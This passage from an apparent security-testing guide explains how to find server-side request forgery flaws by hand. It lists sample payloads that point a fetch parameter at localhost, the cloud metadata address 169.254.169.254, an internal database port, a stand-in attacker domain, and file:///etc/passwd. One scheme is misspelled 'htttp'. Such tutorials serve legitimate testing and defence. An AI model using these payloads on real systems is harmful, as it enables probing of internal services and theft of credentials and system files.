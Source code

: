 **Example:**
```
http://<target_domain>/fetch?url=http://internal-database:3306
```
Here, the attacker is using SSRF to attempt to access an internal database server that is not publicly accessible.

# Manual Discovery Techniques for SSRF

Detecting SSRF vulnerabilities manually involves exploring input fields and parameters that make server-side HTTP requests and testing for behavior that indicates a lack of proper validation or access control.

### 1. Identify User-Supplied URLs
- Look for any functionality that accepts URLs or references to external resources. Common areas include:
  - URL preview features.
  - Image or file upload services (where external URLs are fetched).
  - API integrations that accept user-defined endpoints.

### 2. Test with Internal IP Addresses
- Test by injecting internal IP addresses or localhost to see if the server makes requests to internal services.
  **Example:**
  ```
  http://<target_domain>/fetch?url=http://localhost
  http://<target_domain>/fetch?url=http://localhost:80/
  http://<target_domain>/fetch?url=http://127.0.0.1
  http://<target_domain>/fetch?url=http://127.0.0.1:80/
  http://<target_domain>/fetch?url=http://169.254.169.254/latest/meta-data/
  ```
  
  If the server responds or the application hangs, it may indicate SSRF.

### 3. Blind SSRF Testing Using Out-of-Band (OOB) Channels
- For blind SSRF, inject external URLs pointing to servers you control to verify if the target system is making requests. Tools like **Burp Collaborator** or **DNSBin** can capture these requests.
  **Example:**
  ```
  http://<target_domain>/fetch?url=http://<attacker_domain>/log
  ```

  If you receive a request on your server, the target is vulnerable to SSRF.

### 4. Test with File Protocols and Alternative Schemes
- In some cases, the application may allow other protocols like `file://`, `gopher://`, or `ftp://`. These can be used to access sensitive files or perform other attacks.
  **Example:**
  ```
  http://<target_domain>/fetch?url=htttp://localhost:80/
  http://<target_domain>/fetch?url=ftp://localhost:21/
  http://<target_domain>/fetch?url=file:///etc/passwd
  ```
